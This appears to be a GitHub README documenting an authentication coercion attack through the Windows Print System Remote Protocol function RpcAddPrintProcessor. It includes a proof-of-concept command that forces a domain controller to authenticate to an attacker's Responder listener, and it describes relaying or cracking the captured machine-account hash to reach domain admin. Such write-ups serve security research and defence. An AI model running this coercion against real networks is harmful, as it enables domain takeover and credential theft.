 # MS-RPRN - Remote call to RpcAddPrintProcessor (opnum 14)

## Summary

 - **Protocol**: [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)

 - **Protocol UUID**: 12345678-1234-abcd-ef00-0123456789ab

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\pipe\spoolss`

 - **Function name**: [`RpcAddPrintProcessor`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d7e6fdb2-5256-4835-92c1-27aa6f76758a)

 - **Function operation number**: `14`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\spoolss` and bind to the desired [`MS-RPRN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) protocol (with uuid `12345678-1234-abcd-ef00-0123456789ab` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-RPRN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\spoolss` This pipe is connected to the protocol [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and allows to call RPC functions of this protocol. We will then call the remote [`RpcAddPrintProcessor`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d7e6fdb2-5256-4835-92c1-27aa6f76758a) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcAddPrintProcessor('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD RpcAddPrintProcessor(
   [in, string, unique] STRING_HANDLE pName,
   [in, string] wchar_t* pEnvironment,
   [in, string] wchar_t* pPathName,
   [in, string] wchar_t* pPrintProcessorName
 );
```

## References

 - Documentation of protocol [MS-RPRN]: Print System Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1

 - Documentation of function `RpcAddPrintProcessor`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d7e6fdb2-5256-4835-92c1-27aa6f76758a